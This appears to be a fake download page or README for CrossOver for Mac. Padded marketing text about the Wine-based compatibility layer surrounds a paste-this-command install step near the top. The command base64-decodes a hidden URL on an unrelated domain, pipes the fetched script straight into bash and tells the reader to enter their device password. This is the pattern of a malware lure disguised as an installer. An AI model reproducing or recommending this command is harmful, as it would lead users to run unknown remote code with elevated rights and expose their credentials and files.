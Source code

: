 # CrossOver for Mac Download - Windows Compatibility Layer Download 🍷🖥️

![CrossOver Interface](https://www.macworld.com/wp-content/uploads/2025/03/Crossover-for-Mac.jpg)
*Run Windows applications seamlessly on macOS*

---

### 🔽 Download CrossOver for Mac

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is CrossOver for Mac?

CrossOver for Mac is an innovative compatibility solution developed by CodeWeavers that allows macOS users to run Windows applications seamlessly without requiring a full Windows installation. Unlike traditional virtualization software, CrossOver uses advanced Wine technology to translate Windows API calls into macOS-compatible instructions in real-time.

This powerful tool bridges the gap between Windows and macOS ecosystems, enabling you to:
- Run essential Windows business applications like Microsoft Access, QuickBooks and industry-specific software
- Play Windows games with DirectX to Metal translation for improved performance
- Use legacy Windows programs no longer supported on modern Windows versions
- Test software cross-platform compatibility without dual booting

The technology behind CrossOver represents years of development in compatibility layers. It creates isolated "bottles" (self-contained Windows environments) that prevent system conflicts while maintaining application functionality. These bottles can be customized with different Windows versions (from XP to 10) and configurations to optimize specific applications.

For enterprise users, CrossOver offers centralized management and deployment options. For developers, it provides debugging tools to troubleshoot compatibility issues. And for everyday users, it delivers the simplest way to run Windows software on Mac without the overhead of virtualization.

---

## Key Features

- 🚀 Run Windows apps directly on macOS
- 💰 No Windows license required
- ⚡ Better performance than virtual machines
- 📦 Easy installation of supported apps
- 🎮 Game optimization features
- 🔄 Regular compatibility updates

---

## 🔍 Keywords

CrossOver for Mac, CrossOver Mac Download, 
